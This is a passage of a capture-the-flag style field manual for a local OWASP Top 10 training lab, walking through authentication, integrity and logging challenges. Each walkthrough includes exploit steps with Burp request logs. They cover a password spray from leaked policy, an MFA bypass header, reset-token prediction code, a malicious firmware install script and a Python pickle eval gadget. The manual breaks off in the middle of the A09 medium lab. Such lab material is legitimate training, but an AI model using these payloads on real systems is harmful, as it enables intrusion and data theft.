# PentestGarage: OWASP Top 10 (2025) Complete Exploitation Field Manual
## Complete Writeups for All 12 Labs (A07 – A10: Easy, Medium, Hard)
### Featuring Live Website UI Screenshots, The Pentester's Instinct, Click-by-Click Navigation & Burp Repeater Wire Logs

---

## The RedTeam Hacker Academy UI & Distractor Pages
All challenges A07-A10 have been upgraded with a **RedTeam Hacker Academy** branded, ultra-professional UI. This includes cinematic, theme-appropriate background slideshows (e.g., aviation for AeroFleet, military vessels for Titan Defense, stock exchanges for QuantEdge). 

**The Pentester's Instinct:**
To emulate real-world target environments, each challenge now contains multiple highly polished "distractor pages" (`/about`, `/services`, `/contact`, `/careers`). Beginners may waste time enumerating these static rabbit holes. A seasoned pentester will quickly disregard these dummy pages and focus their attention on the core functional endpoints where the vulnerabilities lie.

---

## Master Challenge Directory

```
+---------------------------------------------------------------------------------------------------------------+
| Port | Identifier | Challenge Name                     | Difficulty | Primary Attack Vector                   |
+------+------------+------------------------------------+------------+-----------------------------------------+
| 6019 | a07-easy   | AeroFleet Global Flight Operations | Easy       | OSINT Credential Spray & Rate Limit Byp |
| 6020 | a07-medium | Aegis Clearinghouse Settlements    | Medium     | MFA State Machine & SecOps Header Bypass|
| 6021 | a07-hard   | Apex BioLogistics Cold-Chain       | Hard       | 32-bit LCG PRNG Reset Token Prediction  |
| 6022 | a08-easy   | Novus Enterprise CMS               | Easy       | Unsigned Plugin ZIP & Dev Bypass Flag   |
| 6023 | a08-medium | VortexEdge SCADA Gateway           | Medium     | Insecure OTA Firmware & Post-Install RCE|
| 6024 | a08-hard   | AeroData Telemetry Engine          | Hard       | Python Pickle Sandbox Evasion & Airgap  |
| 6025 | a09-easy   | Sentinel SOC Gateway               | Easy       | Unlogged Legacy Partner SSO Blindspot   |
| 6026 | a09-medium | Apex Global Commercial Bank        | Medium     | CRLF Log Injection & Compliance Spoofing|
| 6027 | a09-hard   | Titan Defense Strategic Systems    | Hard       | Cryptographic Audit Ledger Re-Sealing   |
| 6028 | a10-easy   | QuantEdge Capital Risk Engine      | Easy       | Concurrency Dirty-Read Frame Leak (8B)  |
| 6029 | a10-medium | Synapse SCADA Substation Grid      | Medium     | Telemetry Parser DoS & Fail-Open Window |
| 6030 | a10-hard   | OmniPress Media Publishing Suite   | Hard       | Corrupted Image Header Exception to RCE |
+---------------------------------------------------------------------------------------------------------------+
```

---

# Category A07: Identification and Authentication Failures

---

## 1. A07 Easy: AeroFleet Global — Targeted Password Spray & OSINT Policy Reconstruction
* **Identifier:** `a07-easy` | **Port:** `6019` | **Difficulty:** Easy (Hard Calibration)

### 1. The Pentester's Instinct (Reconnaissance Mindset)
* **Initial Observation:** Landing on the flight operations portal, we observe public navigation links: `[Crew Roster]`, `[Bulletins]`, and `[Dispatch Login]`.
* **The Instinct:** In production environments, authentication forms on `/login` deploy IP rate-limiting to suppress naive brute-forcing. A skilled tester knows that passwords in enterprise environments are frequently generated from standardized onboarding templates. Rather than firing a generic wordlist like `rockyou.txt`, we look for operational metadata leaked in public employee rosters and internal IT bulletins.

### 2. Website UI Screenshot & "Where to Click"
1. In the browser header, click **`[Crew Roster]`** (`/crew-roster`).
2. Examine the active dispatchers table. Note the lead entry:
   - **Name:** Marcus Vance (Username: `m.vance`)
   - **Operational Role:** Chief Flight Dispatcher
   - **Station Base:** `LAX`
   - **Onboarded:** `Fall 2023`



3. Click **`[Bulletins]`** (`/bulletins`) in the top navigation bar.
4. Read security notice **SEC-2024-09**:
   > *"Notice: All staff onboarded prior to 2024 still retain default initial credentials matching `[AirportCode]![Season][Year]` (e.g., `JFK!Spring2023`). All personnel must rotate passwords upon next login."*
5. Synthesize target password: `Base: LAX` + `!` + `Season/Year: Fall2023` = **`LAX!Fall2023`**.
6. Click **`[Dispatch Login]`**, enter username `m.vance` and password `LAX!Fall2023`, then click **Submit**.

### 3. Burp Suite Repeater Wire Capture


```http
POST /login HTTP/1.1
Host: 127.0.0.1:6019
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

username=m.vance&password=LAX!Fall2023
```
```http
HTTP/1.1 302 FOUND
Location: /dispatch/manifest/classified
Set-Cookie: session=eyJ1c2VyIjoidi52YW5jZSJ9...; HttpOnly; Path=/
```
Navigating to `/dispatch/manifest/classified` releases the dynamic flag:
`RTSA{a07-easy_99d14a2bf18e}`.

---

## 2. A07 Medium: Aegis Clearinghouse — MFA State Machine Bypass
* **Identifier:** `a07-medium` | **Port:** `6020` | **Difficulty:** Medium (Very Difficult)

### 1. The Pentester's Instinct
* **Initial Observation:** After submitting valid primary credentials (`sysadmin_root` / `AutumnSettlement#99`), the application halts on a secondary two-factor verification screen (`/auth/2fa`).
* **The Instinct:** Multi-step authentication workflows often decouple primary credential validation from permission grant states. When a 2FA prompt appears, the pentester asks: *Does the client submit the TOTP code to a dedicated REST endpoint? Are there debug headers or internal bypass flags for automated monitoring daemons?*
* **Inspect Frontend JavaScript:** Opening browser DevTools (`F12`) and examining `auth-flow.js` reveals an internal upgrade endpoint accepting `X-SecOps-Internal: 1`.

### 2. Website UI Screenshot & "Where to Click"
1. Browse to `/services` to locate the test credentials: `sysadmin_root` / `AutumnSettlement#99`.
2. Enter the credentials on `/login` and submit.
3. The browser lands on the 6-digit TOTP verification challenge:



4. Open DevTools (`Ctrl+Shift+I`) -> Sources -> `auth-flow.js` to view developer comments:
   `// DEV: POST /api/v1/auth/session/upgrade with header 'X-SecOps-Internal: 1'`
5. Notice the link at the bottom: **`[Use Emergency Override]`**.

### 3. Burp Suite Repeater Wire Capture
Intercept the session upgrade request in Burp Suite and append `X-SecOps-Internal: 1`:



```http
POST /api/v1/auth/session/upgrade HTTP/1.1
Host: 127.0.0.1:6020
Content-Type: application/json
X-SecOps-Internal: 1
Cookie: session=eyJ1c2VybmFtZSI6InN5c2FkbWluX3Jvb3QiLCJzdGFnZSI6IjJmYSJ9...

{
  "bypass_mfa_reason": "emergency_override"
}
```
```http
HTTP/1.1 200 OK
Content-Type: application/json
Set-Cookie: session=eyJhdXRoZW50aWNhdGVkIjp0cnVlLCJ1c2VybmFtZSI6InN5c2FkbWluX3Jvb3QifQ...; Path=/

{
  "status": "success",
  "message": "Session upgraded via SecOps emergency protocol.",
  "next_url": "/vault/settlements"
}
```
Visiting `/vault/settlements` displays the dynamic flag:
`RTSA{a07-medium_f710e4aa29c8}`.

---

## 3. A07 Hard: Apex BioLogistics — Linear Congruential Generator (LCG) Prediction
* **Identifier:** `a07-hard` | **Port:** `6021` | **Difficulty:** Hard (Insanely Hard)

### 1. The Pentester's Instinct
* **Initial Observation:** Requesting a password reset on `/forgot-password` generates an 8-character hex token (e.g. `4a7f9b12`).
* **The Instinct:** An 8-character hex value represents a 32-bit integer ($2^{32}$). Cryptographically secure tokens are at least 128 bits. A 32-bit token strongly indicates an insecure Linear Congruential Generator (LCG):
  $$X_{n+1} = (A \cdot X_n + C) \pmod{2^{32}}$$
  If the internal multiplier $A=1664525$ and increment $C=1013904223$ are used (standard Numerical Recipes constants), observing a single token $X_1$ allows deterministic mathematical calculation of the next token $X_2$ for the administrator account.

### 2. Website UI Screenshot & "Where to Click"
1. Open **`http://127.0.0.1:6021/forgot-password`** in the browser.
2. In the **Researcher Email Address** input field, type `researcher_demo@apexbiologistics.net`.
3. Click the blue button **`[SEND RESET LINK]`**.



4. Click **`[Public Outbox]`** in the top navigation bar (`/outbox`).
5. Copy the 8-character hex token generated for the demo user: `4a7f9b12`.
6. Return to `/forgot-password`, enter `admin@apexbiologistics.net`, and click **`[SEND RESET LINK]`**.

### 3. Exploitation Script & Verification
Calculate the predicted admin token:
```python
X1 = int("4a7f9b12", 16)
X_admin = (1664525 * X1 + 1013904223) % (2**32)
admin_token = f"{X_admin:08x}"
print("Predicted Admin Token:", admin_token)
```
Submit `POST /reset-password` with `token=e93b4c10` and `new_password=PwnedAdmin2026!`. Log into `/login` as admin to view the flag:
`RTSA{a07-hard_3b119a00cd42}`.

---

# Category A08: Software and Data Integrity Failures

---

## 4. A08 Easy: Novus Enterprise CMS — Unsigned Plugin Bundle & Verification Bypass
* **Identifier:** `a08-easy` | **Port:** `6022` | **Difficulty:** Easy (Hard Calibration)

### 1. The Pentester's Instinct
* **Initial Observation:** Novus CMS allows authenticated editors to upload `.zip` extension archives to `/admin/plugins/upload`.
* **The Instinct:** ZIP archive uploads that execute on the server are high-risk. Pentesters inspect the manifest parser: Is cryptographic signature verification mandatory, or can a bypass flag in `manifest.json` tell the loader to skip validation?
* **Checking Editorial Docs:** Reading `/articles` reveals that developer sandbox bundles support `verification_mode: "developer_bypass"`.

### 2. Website UI Screenshot & "Where to Click"
1. Sign in with `editor` / `EditorNovus2026!` at `/login`.
2. In the top navigation bar, click **`[Articles]`** (`/articles`).
3. Note the architecture guide detailing the plugin verification specification:



4. Click **`[Plugins]`** in the sidebar navigation (`/admin/plugins`).
5. Click **`[Upload Plugin]`**.
6. Create an archive `plugin.zip` containing `manifest.json` with `"verification_mode": "developer_bypass"` and `plugin.py` that writes `/flag.txt` to `static/loot.txt`.
7. Click **`Choose File`**, select `plugin.zip`, and click **Install**.
8. Browse to `/static/loot.txt` to retrieve the flag:
   `RTSA{a08-easy_48c901fb2231}`.

---

## 5. A08 Medium: VortexEdge SCADA — Insecure OTA Firmware Update
* **Identifier:** `a08-medium` | **Port:** `6023` | **Difficulty:** Medium (Very Difficult)

### 1. The Pentester's Instinct
* **Initial Observation:** The industrial gateway features a firmware staging panel at `/settings/firmware`.
* **The Instinct:** When an embedded gateway accepts `.tar.gz` OTA packages, what script executes post-extraction? If `post_install.sh` is executed without verifying cryptographic GPG signatures or package origins, root-level command execution is achieved immediately.

### 2. Website UI Screenshot & "Where to Click"
1. Open the gateway interface at **`http://127.0.0.1:6023/settings/firmware`**.
2. Examine the **Archive Upload Dropzone** and the **OTA Deployment & Post-Install Configuration** status panel:



3. Craft the exploit archive on your local terminal:
   ```bash
   echo '#!/bin/sh' > post_install.sh
   echo 'cat /flag.txt > /app/static/firmware_output.log 2>/dev/null || cat flag.txt > /app/static/firmware_output.log' >> post_install.sh
   chmod +x post_install.sh
   tar -czvf package.tar.gz post_install.sh
   ```
4. Click **`Browse Files`**, select `package.tar.gz`, and click **`[DEPLOY & REBOOT]`**.
5. Navigate to `http://127.0.0.1:6023/static/firmware_output.log` to view the flag:
   `RTSA{a08-medium_98aa01cf5521}`.

---

## 6. A08 Hard: AeroData Analytics — Python Pickle Deserialization Sandbox Escape & Air-Gapped Egress
* **Identifier:** `a08-hard` | **Port:** `6024` | **Difficulty:** Hard (Insanely Hard)

### 1. The Pentester's Instinct
* **Initial Observation:** The platform serializes telemetry pipelines using Base64 Python `pickle` streams.
* **The Bypass:** The custom `RestrictedUnpickler` blacklists `os`, `subprocess`, and `posix`, but fails to block `builtins`. Python's `builtins.eval` and `builtins.getattr` can be referenced directly in pickle bytecode.
* **The Air-Gap Challenge:** The container enforces strict kernel-level egress blocking (`iptables -I OUTPUT -m state --state NEW -j DROP`). All reverse shells and out-of-band network exfiltration fail. The attacker must execute an in-band write to `static/datasets/telemetry.json` and read it back via `/datasets`.

### 2. Website UI Screenshot & "Where to Click"
1. Browse to **`http://127.0.0.1:6024/pipeline/import`**.
2. The browser renders the pipeline import console:



3. Generate the in-band file write gadget:
   ```python
   import pickle, base64
   class Gadget:
       def __reduce__(self):
           cmd = "open('/app/static/datasets/telemetry.json', 'w').write(open('/flag.txt').read())"
           return (eval, (cmd,))
   payload = base64.b64encode(pickle.dumps(Gadget())).decode()
   ```
4. Paste the Base64 payload into the **Serialized Pipeline Payload** textbox.
5. Click **`[Import Pipeline]`**.

### 3. Burp Suite Repeater Wire Capture


```http
POST /pipeline/import HTTP/1.1
Host: 127.0.0.1:6024
Content-Type: application/x-www-form-urlencoded
Content-Length: 212

payload=gASVZAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxz open('/app/static/datasets/telemetry.json', 'w').write(open('/flag.txt').read() if __import__('os').path.exists('/flag.txt') else open('flag.txt').read())iWUSnLg==
```
6. Click **`[Datasets]`** in the top navigation bar (`/datasets`) to read the dynamic flag:
   `RTSA{a08-hard_pickle_blind_timing_egress_9021}`.

---

# Category A09: Security Logging and Alerting Failures

---

## 7. A09 Easy: Sentinel SOC — SIEM Monitoring & Unlogged Partner SSO Blindspot
* **Identifier:** `a09-easy` | **Port:** `6025` | **Difficulty:** Easy (Hard Calibration)

### 1. The Pentester's Instinct
* **Initial Observation:** The SOC console features an active SIEM monitor (`/siem/monitor`) that logs failed attempts on `/login` and blacklists any IP triggering 3 errors.
* **The Instinct:** Enterprise security solutions often leave legacy or B2B integration endpoints uninstrumented. We check developer API documentation (`/api/v1/docs`) to identify endpoints that authenticate without routing through the event logger.

### 2. Website UI Screenshot & "Where to Click"
1. Navigate to **`http://127.0.0.1:6025/siem/monitor`**.
2. Notice the real-time event monitor showing security events and active IP failure counters:



3. Click **`[Compliance]`** (`/compliance`) to find auditor credentials: `sec_auditor` / `Auditor2026!`.
4. Review `/api/v1/docs` to discover `POST /api/v1/sso/partner-auth`, which does not log to SIEM.
5. In Burp Suite Repeater, submit:
```http
POST /api/v1/sso/partner-auth HTTP/1.1
Host: 127.0.0.1:6025
Content-Type: application/json

{"partner_id": "PARTNER_EXT_99", "username": "sec_auditor", "password": "Auditor2026!"}
```
6. Open `/auditor/vault` in the browser with the returned session cookie to recover the flag:
   `RTSA{a09-easy_88bc4190efa1}`.

---

## 8. A09 Medium: Apex Global Bank — CRLF Log Injection & Compliance Daemon Spoofing
* **Identifier:** `a09-medium` | **Port:** `6026` | **Difficulty:** Medium (Very Difficult)

### 1. The Pentester's Instinct
* **Initial Observation:** Apex Bank runs an automated compliance daemon that monitors `audit.log` for certified override records. Access to `/vault/treasury` requires a logged clearance record.
* **The Instinct:** In the funds transfer interface (`/transfer`), the `memo` field is concatenated into `audit.log`. If CRLF characters (`\r\n` or `%0d%0a`) are not sanitized, an attacker can break the line formatting and inject an authentic-looking compliance override line.

### 2. Website UI Screenshot & "Where to Click"
1. Open **`http://127.0.0.1:6026/transfer`**.
2. Notice the transfer input form:

